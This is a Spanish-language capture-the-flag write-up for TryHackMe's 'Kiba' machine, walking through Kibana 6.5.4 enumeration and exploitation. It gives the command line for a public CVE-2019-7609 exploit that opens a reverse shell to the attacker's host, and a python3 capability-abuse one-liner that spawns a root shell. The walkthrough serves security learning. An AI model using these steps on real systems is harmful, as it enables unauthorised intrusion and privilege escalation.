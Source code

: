 # Kiba WriteUp
Volver al [Indice](../README.md)

Bueno, hoy os traigo una de las últimas, sino la última máquina creada en THM, su nombre es Kiba, en ella explotaremos una vulnerabilidad algo diferente (almenos para mí) es un software de monitorización, gráficos, etc.  
Está catalogada con un nivel de "Easy" aunque es bastante interesante esta máquina.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*
Como siempre, vamos a realizar un escaneo de los puertos, servicios y versiones para ver con lo que tratamos.

![nmap](../images/kiba/nmap.png)

Vemos que tiene el puerto 80 abierto con un apache pero no vemos nada relevante ahí.  
En el puerto 5601 vemos el nombre del aplicativo (Kibana), así que accedemos vía web y nos lleva directamente al dashboard de este, echamos un ojo por encima y vemos una pestaña llamada "Dev Tools" en la que podemos insertar código, vamos a buscar su versión.

En esta pestaña, colocamos  ```"GET /"```  para ver información del sistema y, como vemos, tiene la versión 6.5.4 instalada.

![versión](../images/kiba/version.png)

Hacemos una búsqueda por Google y encontramos que esta versión es vulnerable a un ataque llamado "Prototype Pollution", dejo el enlace donde encontré la vulnerabilidad.  
[Kibana 6.5.4 Vulnerability](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/#:~:text=The%20vulnerability%20was%20CVE%2D2019,Kibana%20versions%20before%205.6.&text=This%20could%20possibly%20lead%20to,process%20on%20the%20host%20system.)

Realizando diferentes pruebas con el Dashboard conseguí encontrar un exploit que automatiza directamente toda la explotación de esta vulnerabilidad y te da acceso directamente al sistema, dejo el enlace de este también.  
[CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)


## *# Explotación*
La sintáxis de este es muy sencilla.  
```python exploit.py -u "urlVíctima" -host "ipAtacante" -port "puertoEscucha" --shell```
* -u => Colocamos la URL del aplicativo "Kibana".
* -host => Colocamos la IP nuestra.
* -port => Colocamos el puerto que queremos poner en escucha.
* --shell => Para que nos saque una shell, si no lo ponemos solo nos diría si es o no vulnerable.

![exploit](../images/kiba/exploit.png)

Y ya estaríamos dentro, podemos buscar la flag de user en su directorio habitual.

![userFlag](../images/kiba/userFlag.png)


## *# Post-Explotación*
Como la misma sala nos da una pista de por donde pueden ir los tiros para escalar privilegios vamos a listar recursivamente los "capabilities" (los capabilities es una capa de "seguridad" dentro del sistema, permite a los usuarios usar una aplicación como "root", pero solo ese proceso, no teniendo que ser root en algunos casos y no exponiendo el sistema completamente...claro está que también puede llegar a ser una vulnerabilidad bastante obvia...lo vamos a ver) del sistema a ver si sacamos algo.

![capabilities](../images/kiba/getcap.png)

Dentro del directorio ".hackmeplease" (suena interesante ya de primeras, ¿no?) vemos que el binario de python3 tiene permisos de root y podemos ejecutarlo como vimos con los "capabilities", vamos a lanzarnos una shell a ver si conseguimos ROOT...  
```./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'```

![rooFlag](../images/kiba/rootFlag.png)

Y una vez más..¡Somos ROOT!


